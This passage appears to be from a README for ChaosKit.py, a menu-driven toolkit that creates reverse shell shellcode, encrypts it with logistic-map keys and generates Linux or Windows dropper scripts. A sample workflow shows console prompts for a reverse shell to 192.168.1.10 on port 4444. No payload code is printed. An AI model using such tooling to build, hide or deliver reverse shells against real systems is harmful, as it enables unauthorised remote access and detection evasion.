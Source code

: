 ### **Integrated Script**

#### **4. ChaosKit.py**
Run the interactive toolkit:
```bash
python ChaosKit.py
```

Follow the on-screen menu to perform tasks such as:
1. **Create Reverse Shellcode**: Generate a Linux or Windows reverse shell payload.
2. **Encrypt Shellcode**: Protect shellcode with chaotic keys.
3. **Decrypt Shellcode**: Restore encrypted payloads.
4. **Save/Load Shellcode**: Manage payloads and keys in files.
5. **Display Shellcode**: View raw bytecode or a C-style array.
6. **Create Dropper**: Generate deployment scripts for Linux or Windows.

---

## **Example Workflow**

1. **Generate Linux Reverse Shellcode**:
   ```plaintext
   Enter the target IP address for the reverse shell: 192.168.1.10
   Enter the target port number for the reverse shell: 4444
   Reverse shellcode created for IP 192.168.1.10 and port 4444.
   ```

2. **Encrypt the Payload**:
   ```plaintext
   Encrypted Shellcode: a3b2c4d5...
   Keys: [234, 122, 189, ...]
   ```

3. **Save the Payload**:
   ```plaintext
   Enter filename to save shellcode: reverse_shell.bin
   Enter filename to save keys: chaotic_keys.txt
   ```

4. **Create a Dropper**:
   ```plaintext
   Enter target platform (linux/windows): linux
   Enter filename for dropper script: dropper.py
   Dropper saved to dropper.py
   ```

---

## **Chaotic Keys**

Chaotic keys are derived from a logistic map, a mathematical function exhibiting chaotic behaviour:
```python
x = r * x * (1 - x)
```
